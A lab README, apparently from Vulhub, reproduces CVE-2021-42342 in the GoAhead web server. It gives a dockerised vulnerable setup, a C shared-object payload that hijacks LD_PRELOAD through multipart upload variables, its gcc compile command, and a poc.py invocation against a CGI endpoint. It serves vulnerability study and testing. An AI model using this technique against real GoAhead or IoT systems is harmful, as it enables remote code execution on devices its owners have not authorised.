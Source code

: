 # GoAhead Web Server Environment Variables Injection and 'LD_PRELOAD' Remote Code Execution (CVE-2021-42342)

[中文版本(Chinese version)](README.zh-cn.md)

An issue was discovered in GoAhead 4.x and 5.x before 5.1.5. In the file upload filter, user form variables can be passed to CGI scripts without being prefixed with the CGI prefix. This permits tunneling untrusted environment variables into vulnerable CGI scripts.

Attacker can use this feature to upload their shared object payload in the multipart form and hijack the `LD_PRELOAD` environment variable to execute arbitrary code.

This vulnerability is the patch bypass of the [CVE-2017-17562](https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562).

References:

- https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562
- https://ahmed-belkahla.me/post/2-methods-rce-0-day-in-goahead-webserver-pbctf-2021/
- https://mp.weixin.qq.com/s/AS9DHeHtgqrgjTb2gzLJZg

## Vulnerable environment

Execute following commands to start a GoAhead 5.1.4:

```
docker-compose up -d
```

Then, you can see the welcome page at `http://your-ip:8080`, CGI scripts is available at `http://your-ip:8080/cgi-bin/index`.

## Exploit

First of all, compile this hijack code to a dynamic shared library:

```C
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World\r\n\r\n", 16);
    write(1, "Hacked\n", 7);
}
```

> Please notice that, since GoAhead is a compact embedded webserver running on almost any possible IoT device, the format of dynamic shared library is always depending on the target server architecture. In the real world, compiling exploits is not as easy as this manual suggests, although Vulhub could show you a simplest example.

Compile on a x86/64 environment:

```
gcc -s -shared -fPIC ./payload.c -o payload.so
```

Then, we are using [this script](poc.py) to reproduce the vulnerability.

```
python poc.py http://target-ip:8080/cgi-bin/index /path/to/payload.so
```

Hijack is successful:

![](1.png)
